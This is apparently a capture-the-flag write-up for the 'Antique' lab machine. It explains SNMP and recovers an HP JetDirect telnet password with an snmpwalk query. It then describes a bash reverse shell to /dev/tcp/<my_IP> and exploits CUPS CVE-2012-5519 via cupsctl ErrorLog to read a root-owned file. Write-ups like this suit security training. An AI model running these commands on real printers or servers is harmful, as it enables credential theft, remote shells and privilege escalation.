 # Antique - Linux, easy
## IP: 10.10.11.107

### Nmap scan:
```
PORT   STATE SERVICE VERSION
23/tcp open  telnet?
```

If we connect to the host using telnet, it will print **HP JetDirect** and then asks for user input, probably a password.
Since we do not know thme, we can try a UDP scan to check if there is something else.

```
PORT     STATE         SERVICE      VERSION
53/udp   closed        domain
67/udp   closed        dhcps
123/udp  open|filtered ntp
135/udp  closed        msrpc
137/udp  closed        netbios-ns
138/udp  closed        netbios-dgm
161/udp  open          snmp         SNMPv1 server (public)
445/udp  closed        microsoft-ds
631/udp  closed        ipp
1434/udp closed        ms-sql-m
```

Port 161/udp seems the only one open!

### SNMP (Simple Network Managemen Protocol)
SNMP is a way for different devices on a network to share information with one another. It allows devices to communicate even if the devices are different hardware and run different software.

SNMP has a simple architecture based on a client-server model:
1. The servers, called **managers**, collect and process information about devices on the network;
2. The clients, called **agents**, are any type of device or device component connected to the network. They can include not just computers, but also network switches, phones, printers, and so on.

While the SNMP architecture is simple, the data hierarchy the protocol uses can seem complicated if you’re not familiar with it. Fortunately, it’s relatively simple once you understand the philosophy behind it.
To provide flexibility and extensibility, SNMP doesn’t require network devices to exchange data in a rigid format of fixed size. Instead, it uses a tree-like format, under which data is always available for managers to collect.
The data tree consists of multiple tables (or branches), which are called **Management Information Bases**, or **MIBs**. MIBs group together particular types of devices or device components. Each MIB has a unique identifying number, as well as an identifying string. Numbers and strings can be used interchangeably (just like IP addresses and hostnames).
Each MIB consists of one or more nodes, which represent individual devices or device components on the network. In turn, each node has a unique Object Identifier, or OID. The OID for a given node is determined by the identifier of the MIB on which it exists combined with the node’s identifier within its MIB.
This means OIDs take the form of a set of numbers or strings (again, you can use these interchangeably). An example is **1.3.6.1.4.868.2.4.1.2.1.1.1.3.3562.3**.
Written with strings, that OID would translate to:
**iso.org.dod.internet.private.transition.products.chassis.card.slotCps.cpsSlotSummary.cpsModuleTable.cpsModuleEntry.cpsModuleModel.3562.3.**
Using the OID, a manager can query an agent to find information about a device on the network. For example, if the manager wants to know whether an interface is up, it would first query the interface MIB (called the IF-MIB), then check the OID value that reflects operational status to determine whether the interface is up.

### Obtaining User

Exploit taken from [Getting a JetDirect password remotely using the SNMP vulnerability](http://www.irongeek.com/i.php?page=security/networkprinterhacking).

It seems that the device password for many JetDirects is stored in almost plain text and is accessible via SNMP using the read community name. Most folks leave their SNMP community name as "public" but even it has been change it's likely sniffable. Also try "internal" as the community name as this is the default write community name on many JetDirects. Reports are that on some JetDirects, even if you change the community name, "internal" will still work.

We can recover the password with the following command:
```
snmpwalk -v 1 -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
```

The output is the following set of "bits":
```
BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```

that we can convert from hexadecimal to chars using python3: `[chr(int(b, 16)) for b in bits.split()]`.
Password: **P@ssw0rd@123!!123**.

Now, after successfully log in using telnet, we can try to spawn a reverse shell.
Setup a python server by creating a `www` directory, and executing the following command `echo "bash -i >& /dev/tcp/<my_IP>/<port> 0>&1"`.
Then start the server with `python3 -m http.server 80` and a netcat listener on the specified port.
Now we should have granted user access on the target.

### From User to Root
We are user *lp*, and checking the groups we are in group **lpadmin**.

lpadmin means CUPS printers (Commond Unix Printix System), which allows the system on which it is configured to accept prints from other clients and perform other actions.

If we execute `curl http://localhost:631` and we save the file, opening it on a browser allows us to (better) see the version of CUPS, which in this case is 1.6.1.

This version is vulnerable to **CVE-2012-5519**, which allows members of the lpadmin group to make changes to the cupsd.conf configuration, which can specify an Error Log path.
When the user visits the Error Log page in the web interface, the cupsd daemon (**running with setuid root**) reads the Error Log path and echoes it as plaintext.

Execute these two commands to obtain the root flag.
```
cupsctl ErrorLog=/root/root.txt
curl http://localhost:631/admin/log/error_log
```

Notice that we can also perform different actions, like obtaining a reverse shell as user root, but for the sake of this machine we just need the flag.
